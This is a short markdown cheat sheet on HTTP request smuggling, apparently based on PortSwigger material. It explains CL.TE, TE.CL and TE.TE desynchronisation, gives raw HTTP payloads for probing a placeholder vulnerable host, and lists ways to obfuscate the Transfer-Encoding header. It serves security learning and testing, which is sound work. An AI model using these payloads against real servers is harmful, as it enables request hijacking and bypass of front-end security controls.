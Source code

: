 > From the PortSwigger very good article:\
> https://portswigger.net/web-security/request-smuggling/finding

## What is smuggling

To know when the body of POST request ends, servers can use **Content-Length** and **Transfer-Encoding** headers.

- **Content-Length** specifies the length of the message body in bytes
- **Transfer-Encoding (chunked)** waits to meet a 0 in the body

:warning: **Smuggling requests may occur when frontend (proxy, firewall) and backend servers do not use the same delimiter method.**

:information_source: Use HTTP/1.1 to exploit, because HTTP/2 is not vulnerable.\
:information_source: However, it is still possible to exploit if the frontend supports HTTP/2 but not the backend!

## CL.TE vulnerabilities
- **Frontend** uses **Content-Length**
- **Backend** uses **Transfer-Encoding**

```
POST /robots.txt HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

The next request should answer with a 404.

## TE.CL vulnerabilities
- **Frontend** uses **Transfer-Encoding**
- **Backend** uses **Content-Length**

:information_source: Deactivate *Update Content-Length* in Burp

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

The next request should answer with a 404.

:information_source: The chunk size (here **5e**) is the length of the following chunk in hexadecimal (the chunk being the following request).

## TE.TE vulnerabilities
- Both use **Transfer-Encoding** but one of the servers can be induced not to process it by obfuscating the header in some way.

Ways to obfuscate the header:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```
